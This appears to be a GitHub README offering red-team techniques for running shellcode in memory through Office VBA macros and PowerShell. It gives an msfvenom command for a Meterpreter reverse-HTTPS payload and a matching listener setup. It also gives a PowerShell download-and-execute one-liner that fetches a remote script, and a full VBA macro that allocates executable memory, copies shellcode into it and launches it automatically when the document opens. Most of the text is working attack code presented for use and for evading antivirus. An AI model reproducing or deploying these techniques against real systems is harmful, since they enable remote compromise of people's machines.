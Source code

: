 
### Shellcode Execution via VBA Macro and PowerShell Reflection
This repository demonstrates various in-memory shellcode execution techniques using VBA macros, PowerShell, and dynamic API resolution. These methods are often used for red team operations, malware simulation, and AV evasion.

The payload used in all examples can be generated using any C2 server or shellcode generator such as msfvenom.

Using any C2 serverto create shell code like metasploit 

1. Create shell code
    ```bash
       msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.2.142 LPORT=4444 -f powershell
    ```
2. Start listener
   ```bash
      msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 10.10.2.142; set LPORT 4444; exploit" 
   ```
3. Download and execute the powershell code
    via Macro or powershell directly  
    ```powershell
     IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.2.142/run.ps1')
    ```

#### VBA Shellcode Execution; shellcode embeded

```visual-basic
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long

    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, ...) ' Truncated for display

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter

    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```